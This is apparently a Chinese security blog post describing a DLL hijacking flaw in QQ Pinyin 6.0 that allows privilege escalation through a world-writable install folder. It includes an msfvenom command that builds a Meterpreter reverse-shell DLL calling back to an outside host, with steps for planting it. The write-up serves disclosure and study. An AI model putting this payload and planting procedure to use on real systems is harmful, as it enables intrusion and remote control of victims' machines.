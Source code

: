 ```yaml
---
layout: post
title:  "QQ拼音输入法6.0最新版DLL劫持 - 可利用于提权"
date:   2018-06-09
categories: 内网渗透
permalink: /archivers/2018-06-09/1
description: "QQ拼音输入法6.0最新版DLL劫持 - 可利用于提权"
---
```

QQ拼音输入法6.0最新版DLL劫持 - 可利用于提权
<!--more-->
## 0x00 DLL劫持简介

《DLL劫持》技术当一个可执行文件运行时，Windows加载器将可执行模块映射到进程的地址空间中，加载器分析可执行模块的输入表，并设法找出任何需要的DLL，并将它们映射到进程的地址空间中。 -- 百度百科


## 0x01 应用程序寻找DLL的过程

* 1.程序所在目录
* 2.系统目录即 SYSTEM32 目录
* 3.16位系统目录即 SYSTEM 目录
* 4.Windows目录
* 5.加载 DLL 时所在的当前目录
* 6.PATH环境变量中列出的目录

首先如果在程序所在目录下未寻找到DLL，一般会在SYSTEM32目录下寻找到，那么可能会存在DLL劫持，要看注册表

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs`

Windows操作系统通过“DLL路径搜索目录顺序”和“KnownDLLs注册表项”的机制来确定应用程序所要调用的DLL的路径，之后，应用程序就将DLL载入了自己的内存空间，执行相应的函数功能。

## 0x02 寻找过程

Process Monitor一款系统进程监视软件，总体来说，Process Monitor相当于Filemon+Regmon，其中的Filemon专门用来监视系统 中的任何文件操作过程，而Regmon用来监视注册表的读写操作过程。 有了Process Monitor，使用者就可以对系统中的任何文件和 注册表操作同时进行监视和记录，通过注册表和文件读写的变化， 对于帮助诊断系统故障或是发现恶意软件、病毒或木马来说，非常 有用。 这是一个高级的 Windows 系统和应用程序监视工具，由优秀的 Sysinternals 开发，并且目前已并入微软旗下，可靠性自不用说。


通过Process Monitor找出一些可能容易被劫持的DLL，特征一般如下：

![0x01](http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-06-09/0x01.jpg)

* ntmarta.dll(直接调用)
* profapi.dll（需要点击“配置”）

这两个都不在KnownDLLs中，由于开发人员调用这两个DLL的时候没有定义绝对路径，导致DLL搜索，我们可以直接在搜索到system32之前，放入我们要劫持的DLL。

权限问题：

如果要劫持的DLL目录被操作系统限制了必须以管理员权限才可以读写，那么我们无法利用，本文演示从低权限到高权限的DLL劫持提权。

![0x02](http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-06-09/0x02.jpg)

那么这个漏洞刚刚好也符合我们的案例：C:\Program Files (x86)\Tencent\QQPinyin\6.0.5005.400

这个目录是任何人都可以读写的，使用MSF生成DLL：

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.211.55.19 LPORT=4478 -f dll > ntmarta.dll`

接下来通过任意途径，将dll copy到`C:\Program Files (x86)\Tencent\QQPinyin\6.0.5005.400`路径下即可

MSF配置如下：

![0x03](http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-06-09/0x03.jpg)

当用户使用输入法的时候、或者重启PC的时候，或者切换输入法的时候，都将会触发，我们可以获得一个Meterpreter会话。

![0x04](http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-06-09/0x04.jpg)

## 0x03 视频演示

<video src="http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-06-09/QQPINYIN.mp4" controls="controls" width="500px">
哎呀~ 换个浏览器试试吧！
</video>




